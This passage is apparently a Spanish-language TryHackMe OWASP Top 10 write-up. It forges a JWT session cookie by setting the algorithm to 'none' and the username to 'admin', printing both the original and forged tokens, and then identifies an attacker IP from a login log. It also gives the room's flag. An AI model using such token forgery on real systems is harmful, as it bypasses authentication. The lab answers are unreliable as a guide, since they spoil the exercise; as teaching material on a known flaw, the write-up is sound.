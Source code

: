 - usamos el sitio> https://appdevtools.com/base64-encoder-decoder
- decodificamos la cookie original
- Ponemos alg: none y username : admin
- Recodificamos
- vamos al inspector , apartado storage, cookies, reemplazamos el valor de la cookie

```

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNzMwODY0ODYxfQ.VuPEaCYb2gsi1QpkU3wtjt-Bi2awmIAoSKeDeDuJxmU

{"typ":"JWT","alg":"HS256"}
{"username":"guest","exp":1730864861}
VãÄh&Ú"Õ
dS|-߁f°(H§x;Æe



{"typ":"JWT","alg":"none"}
{"username":"admin","exp":1730864861}

eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzMwODY0ODYxfQ==.
```

#### What is the flag presented to the admin user?

THM{Dont_take_cookies_from_strangers}


## Task 2 - 19. Security Logging and Monitoring Failures


#### What IP address is the attacker using?

	49.99.13.16

- Descargamos el archivo de los logs


```
┌──(kali㉿kali)-[~/tryhackme/owasptopten2021]
└─$ cat login-logs_1595366583422.txt 
200 OK           12.55.22.88 jr22          2019-03-18T09:21:17 /login
200 OK           14.56.23.11 rand99        2019-03-18T10:19:22 /login
200 OK           17.33.10.38 afer11        2019-03-18T11:11:44 /login
200 OK           99.12.44.20 rad4          2019-03-18T11:55:51 /login
200 OK           67.34.22.10 bff1          2019-03-18T13:08:59 /login
200 OK           34.55.11.14 hax0r         2019-03-21T16:08:15 /login
401 Unauthorised 49.99.13.16 admin         2019-03-21T21:08:15 /login
401 Unauthorised 49.99.13.16 administrator 2019-03-21T21:08:20 /login
401 Unauthorised 49.99.13.16 anonymous     2019-03-21T21:08:25 /login
401 Unauthorised 49.99.13.16 root          2019-03-21T21:08:30 /login 

49.99.13.16
```
